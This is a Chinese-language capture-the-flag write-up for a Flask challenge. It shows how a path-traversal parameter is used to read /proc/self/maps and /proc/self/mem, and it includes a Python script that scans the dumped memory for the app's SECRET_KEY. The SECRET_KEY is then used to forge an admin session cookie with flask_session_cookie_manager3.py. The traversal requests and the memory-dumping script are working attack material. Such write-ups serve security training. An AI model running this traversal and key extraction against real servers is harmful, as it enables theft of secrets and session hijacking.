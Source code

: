 ```


@app.route('/admin', methods=["GET"])
def admin_can_list_root():
 if session.get('admin') == 1:#访问/admin后，发现session为admin才能得到flag
 return flag
 else:
 session['admin'] = 0
 return "NoNoNo"



if __name__ == '__main__':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

所以要伪造session,需要获得SECRET_KEY，在代码中星号标记的地方，用了uuid库生成随机数加字符串“\*abcdefgh”来生成SECRET_KEY，所以无法在此获得该密钥

于是想到通过/proc/self/maps读取该进程的内存信息，从而获得密钥，一下为其中一组数据
```
55d6676cc000-55d6676cd000 r--p 00000000 fd:00 23480232 /usr/local/bin/python3.7\n
```

访问后信息太多，写个python脚本过滤
```
import re  
import requests  
  
def secrty():  
    url="http://61.147.171.105:63284/info?file=../../proc/self/maps" #打开网页 
    response=requests.get(url)  #获取内容
    data=re.findall('[0-9a-f]+-[0-9a-f]+ r',response.text)#通过正则获得可读内容  
    for i in data:  
        start=int(i.split("-")[0],16)  #以"-"为分界线分为两组数据，分别为内存区域的起始位置再转换为十进制
        end=int(i.split("-")[1].strip(" r"),16)  
  
        url_1=f"http://61.147.171.105:63284/info?file=../../../../proc/self/mem&start={start}&end={end}"  #拿到地址后在访问mem文件，获得内存内容
  
        data_1=requests.get(url_1)  
        data_2=re.findall("[0-9a-z]{32}\*abcdefgh",data_1.text)##uuid中生成字母共有32位，再拼接原有字符串，即可找到SECRET_KEY
        print(data_2)  
secrty()
```

得到SECRET_KEY
![[攻防世界1-5.png]]

然后可以采用flask session伪造工具：flask_session_cookie_manager3.py
用法：

解密:python flask_session_cookie_manager3.py decode -c -s # -c是flask cookie里的session值 -s参数是SECRET_KEY
